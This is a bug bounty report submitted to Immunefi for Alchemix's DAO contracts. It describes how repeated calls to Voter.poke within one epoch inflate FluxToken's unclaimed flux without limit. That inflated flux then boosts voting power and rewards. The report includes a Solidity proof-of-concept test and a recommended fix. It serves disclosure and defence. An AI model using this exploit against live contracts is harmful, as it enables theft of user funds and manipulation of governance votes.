 
# FluxToken's unlimited mint and Exploitation of gauge voting results using it

Submitted on Mon May 20 2024 22:17:49 GMT-0400 (Atlantic Standard Time) by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31541

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Theft of unclaimed yield
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
FluxToken's unlimited mint and Exploitation of gauge voting results using it

## Vulnerability Details
1. The Poke function can be executed several times within an epoch.
2. The poke function calls Voter._vote function and _vote function calls `IFluxToken(FLUX).accrueFlux(_tokenId)`.

`FluxToken.accrueFlux`
```
/// @inheritdoc IFluxToken
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
This function does not check for multiple calls within one epoch.

## Impact Details
### 1.  mint a substantial quantity of flux tokens
As soon as a user calls the poke function, the value of unclaimedFlux increases. Consequently, an attacker can obtain an unlimited amount of flux tokens. The attackers can wait until their locked bpt expires and then withdraw, enabling them to mint a substantial quantity of flux tokens.

Alternatively, they can withdraw before expiration. In this case, the profits gained by the attacker far outweigh any applicable penalties.

### 2. Secure the majority of the reward tokens
Simultaneously, the attacker can use the acquired flux tokens to obtain a significant voting boost. As a result, the attacker can secure the majority of the reward tokens.

## Recommendation

According to the epoch, it is necessary to modify the acrueFlux function so that users can receive flux for each epoch.
        
## Proof of concept
## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    // An attacker can use Voter.accrueFlux function to mint the fluxToken indefinitely.
    function testBugAccrueFlux() public {
        address attacker = beef;
        uint256 tokenId = createVeAlcx(attacker, TOKEN_100K, MAXTIME, false);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;


        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        hevm.warp(newEpoch());
        voter.distribute();

        console.log("before flux amount: ", flux.balanceOf(attacker));

        {
            hevm.startPrank(attacker);

            uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
            uint256 oldUnclaimedFlux = unclaimedFlux;
            console.log("unclaimedFlux: ", unclaimedFlux);

            // designed max totalPower
            uint256 totalPower = veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId);

            console.log("correct max totalPower: ", totalPower);

            for(uint256 i; i < 5; i++) {
                voter.poke(tokenId);
                unclaimedFlux = flux.getUnclaimedFlux(tokenId);
                console.log("unclaimedFlux: ", unclaimedFlux);
            }

            hevm.warp(newEpoch());
            voter.distribute();

            console.log("correct max totalPower: ", veALCX.balanceOfToken(tokenId) + oldUnclaimedFlux + veALCX.claimableFlux(tokenId));

            console.log("misused max totalPower: ", veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId));

            voter.vote(tokenId, pools, weights, unclaimedFlux + veALCX.claimableFlux(tokenId));

            hevm.warp(newEpoch());
            voter.distribute();

            //It takes a considerable amount of time to implement this block, so I blocked it for now.
            //If is not enough due to the current code, you can open and run the blocked code.
            {
//            hevm.warp(block.timestamp + MAXTIME);
//
//            veALCX.startCooldown(tokenId);
//
//            hevm.warp(block.timestamp + 1 weeks + 1);
//
//            voter.reset(tokenId);
//            veALCX.withdraw(tokenId);
//            console.log("after flux amount:  ", flux.balanceOf(attacker));
            }
            hevm.stopPrank();
        }
        
    }
}
```